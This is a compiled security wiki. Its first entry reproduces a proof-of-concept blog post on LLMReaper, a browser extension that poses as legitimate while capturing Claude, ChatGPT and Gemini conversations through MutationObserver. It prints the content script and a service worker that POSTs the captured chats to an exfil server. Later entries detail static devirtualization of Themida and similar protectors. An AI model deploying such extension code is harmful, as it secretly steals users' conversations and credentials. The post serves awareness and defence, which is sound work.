 Published Time: 2026-05-27T00:00:00.000Z Markdown Content: Every time someone pastes their code or config files into LLMs to debug something, or to review code, they assume the conversation stays between them and the AI. But it doesn't. Any extension installed in your browser can read that conversation. All of it and In real time without you knowing. *   In December 2024 , a supply chain attack on the [Cyberhaven Chrome extension](https://www.darktrace.com/blog/cyberhaven-supply-chain-attack-ex...) by a threat actor who injected a malicious update that was distributed to all users.*   In February 2025, [GitLab's threat intelligence](https://gitlab-com.gitlab.io/gl-security/security-tech-notes/threat-intelligence-tech-notes/malicious-browser-extensions-feb-2025/) team identified 16 malicious Chrome extensions impacting at least 3.2 million users*   In April 2026, a coordinated campaign of over 100 malicious Chrome extensions was [found stealing Google OAuth2](https://www.rescana.com/post/over-100-malicious-chrome-extensions-in-chrome-web-store-steal-google-and-telegram-data-create-pers) Bearer tokens and Telegram sessions

## 技术分析

### 威胁机制

When you install a browser extension and grant it access to a site, you're giving it the ability to read everything on that page. The DOM. The prompts we use and the responses we get are all part of the DOM and that's how it gets displayed. Extensions use a standard browser API called `MutationObserver` to watch for changes in the DOM in real time. So when we send a prompt and get the response both events can be tracked using it. This is a normal feature but this helps lot of extensions function properly. And the permissions required to do this? "read and change all your data on websites you visit". It looks normal and it is required by many legitimate extensions and majority of us allow it without thinking twice. Same permissions can be abused by a malicious extension in the background .

_Disclaimer : many parts of this PoC can be improved, also please excuse my javascript..._ When i thought about testing this I was assuming creating browser extensions must be difficult but to my surprise its not that hard and its kind of fun actually specially for someone who is into web development .

LLMReaper is a proof of concept which demonstrates how a malicious extension can look legitimate and social engineer users and in the background it can fetch conversations in real time without any indications .

Structure of LLMReaper is simple :

`.├── chrome_ext│   ├── manifest.json│   ├── popup.html│   ├── popup.js│   └── scripts│       ├── background.js│       └── content.js├── LICENSE├── llmreaper.py└── README.md`

It has two main parts, backend and the unpacked extension. For this PoC i created a chrome extension but with minor changes we can make a firefox extension as well both compliant with Manifest V3 .

In the manifest we specify the content scripts and the service workers along with the permissions required by the extension. In this case however no permissions are needed .

`"action": {    "default_popup": "popup.html"  },"content_scripts": [    {      "js": ["scripts/content.js"],      "matches": [        "https://claude.ai/*",        "https://chatgpt.com/*",        "https://gemini.google.com/*"      ]    }  ],"background": {    "service_worker": "scripts/background.js",    "type": "module"  }`

When we click the extension icon we see a popup window, so as you might have guessed `popup.html` is the file where our extension _front-end_ lives. Here is an example of a legitimate _looking_ extension :


Real magic happens inside the `content_scripts` this is where we use `MutationObserver` to watch DOM changes and parse it according to the platform we are targeting. For this PoC I added custom parsing for Claude, ChatGPT and Gemini, the big 3 .

I have used various selector queries to match user prompts and LLM responses but the main challenge was detecting when the response completes since we see a streaming output in these platforms. We can't fire a capture query every few seconds because that would mean lot of duplicate and chunks of the response depending on the length, but all three platforms have a thing in common **the stop button**. It maintains its state until the response is completed and then changes so I used the stop button to track response completion and it was good enough for the PoC .

`const STOP_SIGNALS = {  ChatGPT: 'button[data-testid="stop-button"]',  Claude: 'button[aria-label="Stop response"]',  Gemini: 'button[aria-label*="Stop"]',};const stopBtn = document.querySelector(STOP_SIGNALS[platform.name]);    const generating = !!stopBtn;    if (wasGenerating && !generating) {      clearTimeout(renderTimeout);      renderTimeout = setTimeout(processExfiltration, 150);    }    wasGenerating = generating;  });  observer.observe(document.body, { childList: true, subtree: true });`

After the stop signal is found we wait for a bit and run the exfil function .

In exfil we can pick up few more things such as username being used for the platform, _in case of gemini we also get the gmail ID of the user_, page title which is also the chat title and the rest of the conversation parsing logic lives in it. You can read the full code on [github](https://github.com/thewhiteh4t/LLMReaper) .

A payload is formed like this :

`const payload = {    platform: config.name,    meta: {      title: config.getTitle(),      user: getUsername(config.name),      timestamp: new Date().toISOString(),    },    conversation: latestPair,  };  const currentPayloadStr = JSON.stringify(payload);  if (currentPayloadStr !== lastSentPayload) {    lastSentPayload = currentPayloadStr;    chrome.runtime.sendMessage({ action: "exfiltrate", data: payload });  }`

notice that there is no fetch query, we can use it inside `content.js` but it's better to do that in a service worker instead, because of Same Origin Policy .


so we have a proper workaround for Same Origin Policy… you can read more about it [here](https://developer.chrome.com/docs/extensions/develop/concepts/network-requests) .

This is how the service worker i.e. `background.js` in this case looks like :

`const SERVER_URL = "http://localhost:8080/exfil";chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {  handleExfil(message);  sendResponse({ status: "ok" });});async function handleExfil(data) {  try {    await fetch(SERVER_URL, {      method: "POST",      headers: { "Content-Type": "application/json" },      body: JSON.stringify(data),    });  } catch (err) {    console.error("[bg] exfil failed:", err);  }}`

For the PoC i used localhost but this can be replaced with something like a tunnel provider such as ngrok or cloudflare. Its a simple fetch query which sends the conversation to our FastAPI backend server .

The python script is also simple as it receives the query, passes the conversation through a set of regex patterns and displays the conversation along with any secret detection. Here is how it looks for a test prompt in gemini :


and after secrets detection :


You can watch it in action here : [YouTube](https://www.youtube.com/watch?v=Hq8yIQS0kdo)

LLMReaper demonstrates techniques documented in the MITRE ATT&CK framework:

| Technique | ID | Description |
| --- | --- | --- |
| Masquerading | T1036 | Extension presents a legitimate-looking UI while capturing conversations in the background |
| Web Portal Capture | T1056.003 | Passively reads user prompts and AI responses rendered in the DOM |
| Exfiltration Over C2 Channel | T1041 | Captured conversations POSTed to attacker-controlled server via service worker |
| Supply Chain Compromise | T1195 | Malicious extensions distributed via legitimate browser stores |
| Credentials from Web Browsers | T1555.003 | API keys, tokens, passwords detected via regex in captured conversation content |

- Check your extensions and remove anything you do not use or is looking suspicious
- Never paste credentials or any sensitive data into chats
- Use multiple browser profiles as they provide isolation
- Treat AI conversation content as an unencrypted channel
- Include browser extension risk in security awareness training

You can view the code and download the project on [GitHub - LLMReaper](https://github.com/thewhiteh4t/LLMReaper). You can use it as awareness exercise within your teams and show them the problem practically .

## 与现有实体对比

- **差异化**: 新威胁类型（LLMReaper - DOM Based AI Conversation Exfiltration via Browser Extensions），现有安全实体侧重传统 Web 攻击
- **相关实体**: [Llmreaper Dom Based Ai Exfiltration](https://github.com/QianJinGuo/wiki/blob/main/entities/llmreaper-dom-based-ai-exfiltration.md)、[Llmreaper Dom Conversation Exfiltration](https://github.com/QianJinGuo/wiki/blob/main/entities/llmreaper-dom-conversation-exfiltration.md)

## 相关实体
- [llmreaper - dom based ai conversation exfiltration via brows](https://github.com/QianJinGuo/wiki/blob/main/entities/blog-ai-chat-llmreaper.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/llmreaper-dom-based-ai-conversation-exfiltration-via-browser.md)

## 深度分析

### 攻击链的端到端博弈

LLMReaper 展示了一条完整的攻击链，从心理学层面的社会工程到技术层面的数据窃取，形成了一个闭环的威胁模型 。攻击的起点不是技术漏洞，而是用户行为习惯——开发者天然倾向于向 AI 助手粘贴代码和配置以寻求调试帮助，这种行为模式使 LLM 对话成为情报金矿。与传统网络钓鱼需要用户主动点击恶意链接不同，浏览器扩展攻击是「安装即失血」：用户主动授予的 `host_permissions` 在扩展生命周期内持续有效，而用户对已安装扩展的警惕性随时间递减 。LLMReaper 的设计巧妙之处在于它利用了浏览器的正常权限架构，不需要任何特殊权限声明（content script 通过 DOM 访问即可工作），这使得攻击面从「恶意扩展利用漏洞」扩展到了「任何有 DOM 读取权限的合法扩展被劫持或供应链污染」。攻击者面对的防御方是用户本人，而用户的盲点在扩展权限提示弹出时已经达到峰值——这个时间窗口几乎无法被有效利用。

### MutationObserver 的双重性：合法功能如何成为隐蔽通道

`MutationObserver` API 的设计初衷是让 Web 应用能够响应 DOM 变化，实现动态内容更新和实时交互 。LLMReaper 将这一合法 API 重新语境化为数据渗出管道，其关键创新在于使用流式输出的停止信号（stop button 状态切换）作为对话完整性的判定依据，而非依赖轮询或定时采样 。这意味着 extension 在正常工作时几乎不产生可被检测的异常流量——没有高频请求，没有异常 DOM 查询模式，只有在对话完成时才有一次结构化的 POST 请求 。更难检测的是，服务 worker（`background.js`）与 content script 分离部署，通过 `chrome.runtime.sendMessage` 内部通信 ，同一域上的网络安全设备无法感知 extension 内部的消息传递。这不是绕过防火墙，而是将通信隐藏在浏览器进程内部。

### 浏览器权限模型的系统性失效

浏览器扩展权限模型的核心假设是：用户会审慎授权，且授权后扩展不会背叛用户的信任 。LLMReaper 暴露了这一假设的三重失效：首先，`"read and change all your data on websites you visit"` 这一提示对普通用户毫无语义——它被超过数千个合法扩展使用，用户早已对其产生脱敏反应；其次，即使用户想审计扩展行为，Manifest V3 的 service worker 架构也使得运行时行为难以被外部监控；最后，供应链攻击（如 Cyberhaven 事件）完全绕过了用户决策环节，自动更新机制将恶意代码直接推送至已授权的扩展 。浏览器安全模型的设计哲学是保护用户免受恶意网站的侵害，但它无法保护用户免受用户自己授权的实体的侵害——这是权限委托模型的内生性缺陷。

### 检测与缓解的现实困境

LLMReaper 的检测难点在于它同时满足了多个低可检测性条件：攻击工具是合法的浏览器扩展生态的一部分，攻击行为发生在受害者本地浏览器进程中（而非通过网络异常可检测的流量），且窃取的数据是用户主动输入的内容而非系统层面的凭证修改 。现有的安全产品中，端点检测与响应（EDR）方案通常监控进程级行为和网络连接，而 extension 运行在受限的浏览器沙箱内；网络安全设备（防火墙、IDS/IPS）看不到 extension 内部的消息传递，也无法区分用户正常访问 AI 网站的 HTTPS 流量与恶意 extension 的数据渗出。缓解措施如「检查并删除不使用的扩展」在个人用户层面有效，但在企业环境中面对自选扩展政策时几乎无效——安全团队无法控制员工个人设备上的扩展选择 。多浏览器 profile 隔离虽然提供了会话级别的隔离，但无法阻止同一 profile 内扩展的横向数据流动。

## 实践启示

1. **将 AI 对话视为公开渠道进行管理**：任何在 LLM 对话中输入的内容都应被视为已泄露，不能包含任何密钥、密码、个人身份信息或专有代码片段。API key 应通过环境变量或密钥管理服务注入，而非粘贴至聊天窗口 。

2. **实施扩展最小权限审计流程**：企业和个人用户应建立扩展安装的审批机制，记录已安装扩展的权限声明和使用目的。对于拥有 `host_permissions` 或全站访问权限的扩展，应定期审查其源代码（开源扩展）或请求开发者提供权限使用说明 。

3. **采用 Profile 隔离 + 扩展白名单策略**：对安全性要求高的使用场景（如处理专有代码或机密业务数据），应使用独立的浏览器 Profile 来访问 AI 平台，该 Profile 中不安装任何非必需的扩展，企业可通过浏览器配置管理（MDM/Group Policy）强制执行此隔离策略 。

4. **在 AI 应用层面引入敏感数据检测**：对于必须使用 AI 辅助处理代码或配置的组织，应在 AI 平台入口（如企业内部 AI 助手界面）集成数据丢失防护（DLP）模块，自动检测并阻断包含明显密钥模式（正则如 `[a-zA-Z0-9]{32,}`）、API 前缀或机密字段名的输入 。

5. **将扩展供应链安全纳入安全意识培训**：传统的网络钓鱼意识培训已不足以覆盖此类威胁。安全团队应模拟 LLMReaper 这类 PoC 工具进行实战演示，让员工直观感受「安装一个看起来无害的扩展后对话被实时窃取」的过程，从而建立对扩展权限的真正警惕性 。

---

## Ch12.017 Static Devirtualization of Themida

> 📊 Level ⭐⭐ | 17.3KB | `entities/static-devirtualization-themida.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/back-engineering-static-devirtualization-themida.md)

## 摘要

| 字段 | 内容 |
|------|------|
| Title | Static Devirtualization of Themida |
| URL Source | https://back.engineering/blog/09/05/2026/ |
| 来源 | Back Engineering Labs Newsletter |

## 关键要点

- **技术领域**：二进制安全 / 软件逆向工程 / 混淆对抗
- **核心贡献**：提出一种通用静态去虚拟化框架，可跨 Themida、VMProtect 等多种基于虚拟机的代码保护器工作，仅需少量 VM 特定知识
- **评分**：value=9, confidence=9, product=81

## 核心方法论

### 引导式符号执行（Guided Symbolic Evaluation）

Back Engineering Labs 提出的静态去虚拟化方法，其核心思想是将原生 x86/ARM64 指令提升（lift）到一种可变的中间表示（IR），然后通过引导式符号执行（guided symbolic evaluation）驱动整个 lifting 过程向前推进 。

与以往针对 VMProtect 的方案不同，该方法刻意将 VM 特定知识的依赖降到最低，这也是它能够跨多个版本 Themida 以及其他基于虚拟机的混淆器工作的根本原因 。

**BLARE2 引擎**：Back Engineering Labs 维护的自研二进制 lifting 和重编译引擎，支持自定义 SSA IR（AMD64 + ARM64）、完整 pass 系统、优化器、指令选择器、寄存器分配器和链接器 。

### 符号执行的核心机制

lifting 从所有寄存器（除 RSP 外）和标志位均为符号值的状态开始，直到遇到无法确定下一指令指针的控制流指令为止 。若地址无法被具体化（concretize），则说明两种情况：要么优化过程尚未运行充分，要么该分支存在多个真实目标（如虚拟化条件跳转） 。

**Concretizing Stack Pointer**：设计决策——将 RSP 保持为具体值，使加载/存储传播机制自动处理栈访问，栈指针算术运算无需特殊处理即可被常量折叠。代价是不支持动态栈分配（如 alloca），但实践中虚拟化的函数很少使用动态栈分配 。

## 优化 Pass 系统

常量提升与内存建模是整个去虚拟化链条中的第一环 。VM 字节码通过内存加载进入计算图，而常量提升 pass 将这些加载值提升为常量，使周围的解密运算（handler 解密逻辑、opcode 表索引、VPC 更新数学）能够逐步折叠消失，最终暴露出具体的 handler 地址 。

死存储消除（Dead Store Elimination）在此时是安全的，因为消除的 stores 作用域仅限于 VM 私有内存（Themida 专用 section 中的虚拟机构上下文、虚拟栈等），这些内存对原始程序完全不可见 。

### Pass 间的协同效应

这些优化 pass 之间并非独立工作——字节码加载被提升为常量，使周围的解密运算折叠，生成具体的 handler 索引，进而解析 handler 表查找，暴露下一个 handler 地址为常量 。每个 pass 喂养下一个 pass，VM 脚手架作为它们共同收敛的结果而坍缩 。

**完整的 pass 列表**：
1. **Constant Promotion & Memory Modeling** — 字节码加载提升为常量，可配置内存范围策略防止用户数据被意外提升
2. **Constant Folding** — 运行至收敛，每次折叠可能使新的表达式变为常量
3. **Dead Store Elimination** — 安全地移除仅访问 VM-private 内存的 store
4. **Instruction Combination** — 识别代数恒等式，折叠可知结果的操作，剥离 VM handler 中的冗余运算
5. **Branch Folding** — 标志位计算解析为常量后，消除不透明分支目标
6. **VMEXIT Behavior** — 根据 RSP 位移区分 VMEXIT-CALL、VMEXIT-返回原函数 epilog 等类型
7. **Virtualized Control Flow** — 记录所有虚拟指令指针，避免虚拟化循环被错误展开
8. **Dead Dependency Analysis Pass** — 识别被 native 代码 clobber 的寄存器/标志，这些从 VM 视角看是死的
9. **Stack Pointer Rewrite Pass** — 将常量栈地址访问重写为 RSP-relative 形式

## Themida 特有的虚拟化条件跳转

这是少数真正需要 VM 特定知识的场景之一 。在 Themida 的 VJCC handler 中，条件先被求值并将结果写入 `branch_taken_flag`，VIP 直到 handler 末尾才推进 。

这意味着符号执行在 VIP 被解析之前就遇到了分支叉点，两条路径都需要被探索，每条路径的正确 VIP 必须通过 handler 底部的条件 VPC 更新逻辑追踪，而不是从单一加载中读取 。

> **Warning**: 模式匹配 VM handler 不是推荐的方法 。任何对 VM-specific 行为的依赖都会使工具变得脆弱——handler 布局、opcode 表或调度逻辑的小变化可能无声地破坏整个版本范围的工具 。

## 降级（Lowering）阶段

将优化后的 IR 降级回原始 ISA（指令集架构） 。这一阶段涵盖指令选择、寄存器分配、汇编，以及将恢复的代码链接回二进制 。

**关键约束：寄存器压力** 。如果寄存器分配器发生溢出，去虚拟化后的代码会产生自己的栈帧，这会立即导致通过栈传递参数的函数调用被 IDA、Binary Ninja 等反汇编器误读 。

**架构选型**：对于需要还原被虚拟机保护器混淆的二进制代码的场景，作者明确倾向于自研 lifting 框架（如 BLARE2）而非基于 LLVM 的方案 。LLVM 的后端在生成能够干净地重新插入二进制的紧凑行为良好原生代码方面存在固有困难——这是去虚拟化区别于一般二进制订简的特殊约束 。

## 实验结果

去虚拟化后的输出在功能上与原始代码 1:1 等价 。但值得注意的是，后端选择了不同的指令和寄存器，这是寄存器分配器和指令选择器做出不同选择的结果——关键是没有发生寄存器溢出 。

恢复的代码保持与原始代码一样紧凑和干净，没有多余的栈帧或 artifacts 。重要的是，去虚拟化后的代码不仅是结构上相似，而是完全可执行的——恢复的函数可以作为原生代码运行，在反汇编器中干净地加载，行为与原始实现完全相同 。


**开源仓库**：[themida-devirt](https://github.com/backengineering/themida-devirt) 包含原始二进制、虚拟化后的二进制和去虚拟化后的二进制，可供读者直接检查和比较结果 。

## 对抗符号执行的方向

对于混淆器而言，要阻止符号执行使间接跳转目标永远无法被具体化，一种简单方法是通过带不透明值的 MBA 表达式对其进行编码 。

但这类 MBA 表达式现在已能被现有技术轻易约简（参见 [相关演示](https://www.youtube.com/watch?v=3LtwqJM3Qjg)） 。

更强的技术（如 CodeDefender 在重型保护层级中实现的技术）可从根源上使符号执行变得不可行，但具体细节超出本文范围 。

## 跨混淆器泛化能力

本文技术经少量修改后可应用于多种基于虚拟机的保护器 ：

- **VMProtect**
- **CodeVirtualizer**
- **vmp2**
- **vxlang**
- **EagleVM**
- **covirt**
- **binprotect**

## 深度分析

### 符号执行是去虚拟化的主引擎，而非 VM handler 模式匹配

Back Engineering Labs 方法的核心洞察是：去虚拟化的主要工作量由**通用的编译器级优化 pass** 驱动，而非 VM-specific 的 handler 行为理解 。该方法刻意避免了对 VM handler 进行逆向和模式匹配的做法——作者明确指出自己曾经尝试过 handler 模式匹配，结论是"不scalable"（handler 布局、opcode 表或调度逻辑的小变化可能无声地破坏整个版本范围的工具）。这与许多学术和工程社区的早期路线形成鲜明对比：那些方案通常花费大量精力逆向 VM 架构，然后用启发式规则将 VM handler 反向映射回原生 x86 指令，结果是脆弱且难以维护。该方法的成功在于将"理解 VM"降为最小必要输入，把主要工作量交给 Constant Folding、DCE、Instruction Combination 等通用优化 pass 去完成 。

### Pass 间的协同收敛是 VM 脚手架坍缩的驱动机制

该方法揭示了一个重要的系统思维：VM 脚手架的"坍缩"不是单一 pass 的功劳，而是多个 pass 迭代收敛的结果 。字节码加载被提升为常量 → 解密运算折叠 → handler 索引变为常量 → handler 表查找被解析 → 下一 handler 地址暴露为常量，每个 pass 的输出为下一个 pass 创造条件。这是一个正反馈循环，最终使 VM 的所有控制流和数据流基础设施暴露为常量并被消除。这种"pass 协同收敛"的思想在编译器优化中常见，但将其应用于 VM 去虚拟化的洞察是：VM 的字节码解释器本身也是一种"被优化的程序"，当常量足够多时，整个解释器执行路径都可以被折叠 。

### Themida VJCC handler 是 VM-specific 知识的最后堡垒

尽管该方法总体上最小化 VM 依赖，但 Themida 的虚拟化条件跳转（VJCC handler）是例外：它要求两条符号执行路径同时探索，并需要通过 `branch_taken_flag` 追踪条件 VPC 更新逻辑来确定每个分支的真实 VIP 。这与 VMProtect 的条件跳转处理方式有根本差异——VMProtect 中 VIP 是单一加载值，可以从最后模块加载中直接读取；而 Themida 中 VIP 推进被延迟到 handler 末尾，导致符号执行必须在两条路径上同时推进，直到 flag 被解析。这说明**跨混淆器的通用去虚拟化框架仍然需要为每个混淆器保留少量但关键的控制流处理逻辑**，只是这些逻辑的 scope 被压缩到了最小必要集合 。

### 自研 lifting 框架 > LLVM 的核心原因是"重新插入二进制"约束

作者明确偏好自研 lifting 框架（如 BLARE2）而非基于 LLVM 的方案（如 Remill），原因是：去虚拟化的最终目标不是生成可读的 IR 用于静态分析，而是生成**能够重新插入原始二进制**并在反汇编器中干净加载的原生代码 。LLVM 的后端设计目标是生成高性能的程序代码，它在寄存器分配和指令选择上追求性能而非二进制兼容性——当寄存器分配器溢出时，它会生成一个栈帧，这在一般程序中是正常行为，但在去虚拟化场景下会导致栈传递参数的函数调用被反汇编器完全误读 。自研框架可以精确控制何时触发溢出、何时避免溢出，以及栈帧的布局，而 LLVM 的优化决策对用户不透明。

### 注册压力是降级阶段的核心约束，溢出代价是语义级别的误读

寄存器压力在降级阶段是最需要关注的约束 。一旦寄存器分配器发生溢出，恢复的代码会产生自己的栈帧，这会导致栈传递参数的函数调用被 IDA、Binary Ninja 等反汇编器误读——不是"显示不够清晰"，而是"参数指向完全错误"，使恢复的代码在实践中无法使用。这解释了为什么去虚拟化工具的评估不能只看"还原后的代码结构是否与原始代码相似"，而必须看"恢复的代码是否能够作为原生代码运行并在反汇编器中干净加载" 。

## 实践启示

1. **采用符号执行 + 通用优化 pass 路线，而非 handler 模式匹配路线**。Back Engineering Labs 明确指出模式匹配 VM handler 的方法在可维护性和跨版本支持上存在根本缺陷 。对于需要开发去虚拟化工具的团队，应该将工程投入放在 Constant Folding、DCE、Instruction Combination 等通用优化 pass 上，这些 work 在不同 VM 保护器之间可以复用。只有在控制流处理（如 Themida VJCC handler）时才需要 VM-specific 逻辑。

2. **在 lifting 阶段将 RSP 保持为具体值以简化实现**。这一设计选择意味着不需要编写专门的栈传播逻辑，现有的 load/store 传播机制可以自动处理所有栈访问 。代价是放弃对 `alloca` 和动态栈分配的支持，但实践中虚拟化函数很少使用这些特性。对于需要处理动态栈分配的场景，可以考虑 lifting 阶段保留 RSP 为符号值，并在后续添加栈传播 pass。

3. **实现 Virtualized Control Flow 记录以防止 IR 爆炸**。虚拟化循环如果被错误展开，IR 会指数级增长 。解决方案是：在 lifting 过程中记录所有遇到的虚拟指令指针（VIP），当遇到 backedges 时识别为循环而非继续展开。这对于 Themida 和 VMProtect 等所有基于虚拟机的保护器都是必要的。

4. **将 BLARE2 或 Triton/Remill 作为起点，但预留自研降级后端的投入**。对于想复现该方法的团队 ，Triton 或 Remill 可以提供干净的 IR，是较好的起点。但要达到"生成可重新插入二进制的原生代码"的目标，最终需要一个自研的降级后端来精确控制寄存器分配策略以避免溢出 。建议将整个工作分为"lifting + 优化"（可用现有框架）和"lowering + 重插入"（需要自研）两个阶段分别投入。

5. **通过 GitHub 仓库 themida-devirt 获取 ground truth 验证**。该仓库包含原始二进制、虚拟化二进制和去虚拟化后二进制三个版本 ，可以直接比较输入和输出。建议将其作为开发和调试过程中的质量基准——不仅验证"代码是否看起来正确"，更要验证"恢复的代码是否能在反汇编器中干净加载且行为与原始代码 1:1 等价"。

6. **考虑 MBA 混淆作为对抗符号执行的应对措施**。如果你是混淆器实现者，想对抗符号执行驱动的去虚拟化，简单地使用带不透明值的 MBA 表达式编码间接跳转目标已不再足够（现有技术可以轻易约简）。更强的技术来自 CodeDefender 的重型保护层级——但具体实现超出本文讨论范围。

## 相关实体

- → [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/back-engineering-static-devirtualization-themida.md)
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/back-engineering-static-devirtualization-themida.md)（另一版本）
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-of-themida.md)（另一版本）

- [Static Devirtualization 2024](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-2024.md)
- [static devirtualization of themida](https://github.com/QianJinGuo/wiki/blob/main/entities/2026.md)

---

## Ch12.018 Static Devirtualization 2024

> 📊 Level ⭐⭐ | 15.9KB | `entities/static-devirtualization-2024.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/static-devirtualization-of-themida.md) | → [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/back-engineering-static-devirtualization-themida.md)

## 摘要

Static Devirtualization（静态去虚拟化）是一种针对基于虚拟机的代码混淆保护器的逆向工程方法论。其核心思想是将虚拟机（VM）保护的原生代码通过符号执行（Symbolic Evaluation）提升（lift）至中间表示（IR），利用通用编译器优化 passes 逐步消除 VM 脚手架，最终恢复出可读的原生代码。该方法在 2024 年已达到成熟实用阶段，可跨 Themida、VMProtect、CodeVirtualizer 等多种基于虚拟机的代码保护器工作，仅需极少的 VM 特定知识。

## 技术背景

### 虚拟机混淆的挑战

现代软件保护器（如 Themida、VMProtect）使用自定义虚拟机将原始 x86/ARM64 指令转换为字节码（bytecode），并在 VM 内部执行。这种保护方式使得：

- 原始指令被完全隐藏
- 字节码格式为每个二进制文件独有（加密 opcode 表）
- 控制流被虚拟化，传统的反汇编/反编译工具失效

传统逆向方法（如 IDA Pro、Binary Ninja）只能看到 VM entry stub 和 handler 分发逻辑，无法直接分析被保护的函数逻辑 。

### 早期方法的局限性

早期去虚拟化研究主要依赖 **pattern matching** —— 将 VM handler 反向匹配回原始 x86 指令。这种方法的问题在于：

- handler 布局、opcode 表或调度逻辑的任何微小变化都会破坏工具链
- 无法跨版本工作，脆弱性极高
- 保护器厂商可通过小升级轻易破坏已有工具

相关早期工作可追溯到 2019 年的学术研究（arxiv 1909.01752）以及社区项目如 VMProtect-devirtualization、Dna/Mergen 等 。

## 核心技术：引导式符号执行

### BLARE2 引擎

Back Engineering Labs 开发的 BLARE2 是一个自定义 binary lifting 和重编译引擎，具备：

- 自定义 SSA IR（支持 AMD64 + ARM64）
- 完整 pass 系统与优化器
- 指令选择器、寄存器分配器、链接器
- 可将优化后的 IR 降级回原生代码并重新插入二进制

关键创新点：区别于学术 lifting 框架（如 Remill）仅能生成 LLVM IR，BLARE2 可以输出紧密且行为良好的原生代码，这是去虚拟化实用化的临门一脚 。

### 符号执行起点

Lifting 从以下初始状态开始：

- **所有寄存器和标志位均为符号值**（symbolic）
- **RSP（栈指针）被赋予具体初始值**（concrete）

这一设计决策的权衡：

- **好处**：现有 load/store 传播逻辑自动处理栈访问；RSP 算术运算可被常量折叠
- **代价**：不支持动态栈分配（如 `alloca`），但实践中虚拟化的函数很少使用动态栈分配

### 控制流具体化

当遇到 ret 指令且 RSP = `initRSP - 0x10` 时，判定为 **VMEXIT-CALL**：

- call 目标置于 RSP
- 返回地址置于 `RSP + 0x8`

若地址无法被具体化（concretize），说明：
1. 优化过程尚未运行充分
2. 该分支存在多个真实目标（如虚拟化条件跳转 VJCC）

## 优化 Pass 系统

这些 passes 之间并非独立工作——**每个 pass 喂养下一个 pass，VM 脚手架作为它们共同收敛的结果而坍缩** 。

### 完整 Pass 列表

1. **Constant Promotion & Memory Modeling** — 将 bytecode 加载提升为常量；可配置内存范围策略防止用户数据被意外提升 `
2. **Constant Folding** — 运行至收敛；每次折叠可能使新的表达式变为常量 `
3. **Dead Store Elimination** — 安全移除仅访问 VM-private 内存的 store `
4. **Instruction Combination** — 识别代数恒等式，剥离 VM handler 中的冗余运算 `
5. **Branch Folding** — 标志位计算解析为常量后，消除不透明分支目标 `
6. **VMEXIT Behavior** — 根据 RSP 位移区分 VMEXIT-CALL、VMEXIT-返回原函数 epilog 等类型 `
7. **Virtualized Control Flow** — 记录所有虚拟指令指针，避免虚拟化循环被错误展开 `
8. **Dead Dependency Analysis Pass** — 识别被 native 代码 clobber 的寄存器/标志，这些从 VM 视角看是死的 `
9. **Stack Pointer Rewrite Pass** — 将常量栈地址访问重写为 RSP-relative 形式 `

### Pass 间的协同效应示例

```
bytecode load 被提升为常量 
→ 解密运算被折叠 
→ handler 索引变为具体 
→ handler 表查找被解析 
→ 下一 handler 地址成为常量
```

VM 脚手架由此逐步崩溃 。

## Themida 特有的 VJCC 处理

这是少数真正需要 VM 特定知识的场景之一。

在 Themida 的 VJCC handler 中：

- 条件先被求值并将结果写入 `branch_taken_flag`
- VIP（Virtual Instruction Pointer）直到 handler 末尾才推进

这意味着符号执行在 VIP 被解析之前就遇到了分支叉点：

- 两条路径都需要被探索
- 每条路径的正确 VIP 必须通过 handler 底部的条件 VPC 更新逻辑追踪，而非从单一加载中读取

相比之下，VMProtect 的 VIP 就是最后加载模块值，逻辑简单得多 。

## 降级（Lowering）阶段的关键约束

### 寄存器压力

如果寄存器分配器发生溢出（spill），devirtualized 代码会产生自己的栈帧。这会导致：

- 栈传递参数的地址计算错误
- IDA、Binary Ninja 等反汇编器误读函数调用
- 恢复的代码无法正确加载

**目标**：产生可执行输出，使其在任何反汇编器中都干净地加载，没有多余的栈帧或 artifacts 。

### LLVM 的局限性

作者对 LLVM-based 方案持保留态度：

- LLVM 在生成能够干净地重新插入二进制的紧凑行为良好原生代码方面存在固有困难
- 让 LLVM 发出 tight, well-behaved native code 是一个独立项目
- 这是去虚拟化区别于一般二进制订简的特殊约束

## 防御与对抗的演进

### MBA 混淆的对抗

通过带不透明值的 MBA（Mixed Boolean-Arithmetic）表达式隐藏分支目标是早期对抗符号执行的方法。但这类 MBA 表达式目前已能被现有技术轻易约简（参见相关演示） 。

### 更强的防护技术

更强的技术（如 CodeDefender 在重型保护层级中实现的技术）可从根源上使符号执行变得不可行，但具体细节超出本文范围 。

## 2024 年技术成熟度

截至 2024 年，静态去虚拟化技术已达到以下成熟度：

| 维度 | 状态 |
|------|------|
| Themida 去虚拟化 | ✅ 成熟，跨版本有效 |
| VMProtect 去虚拟化 | ✅ 成熟 |
| 嵌套虚拟化支持 | ✅ 支持（Themida 架构） |
| ARM64 支持 | ✅ BLARE2 原生支持 |
| LLVM 后端替代方案 | ⚠️ 需要大量工程投入 |
| 对抗 MBA 混淆 | ✅ 可约简 |
| 对抗更强混淆技术 | 🔄 持续演进 |

## 深度分析

### 通用优化是去虚拟化的主力，而非 VM 特定知识

本文最重要的颠覆性观点是：去虚拟化绝大部分工作由通用编译器优化 passes 完成，VM 特定知识仅在处理控制流时（即虚拟分支和虚拟化调用场景）才是必需的 。这与社区长期依赖 pattern matching 的路线截然不同——pattern matching 将每个 VM handler 反向匹配回 x86 指令，但 handler 布局、opcode 表或调度逻辑的任何微小变化都会破坏整个工具链。相比之下，基于符号执行 + 通用优化 passes 的方法天然跨版本、跨保护器工作，因为 passes 作用于 IR 而非特定 VM 行为。

### Concrete RSP 的设计权衡：牺牲动态栈支持换取整体简洁

BLARE2 将 RSP 设为具体初始值而非符号值，这是一个经过深思熟虑的设计决策。将 RSP 符号化需要编写专用的栈传播逻辑，而保持 RSP 具体值意味着现有 load/store 传播逻辑自动处理栈访问，RSP 算术运算可被常量折叠，无需特殊处理 。代价是：不支持 `alloca` 或编译器生成的变长数组（VLAs），因为栈位移不再是静态可知的。但实际上，需要虚拟化的函数很少使用动态栈分配，这一限制在实践中几乎不构成问题。

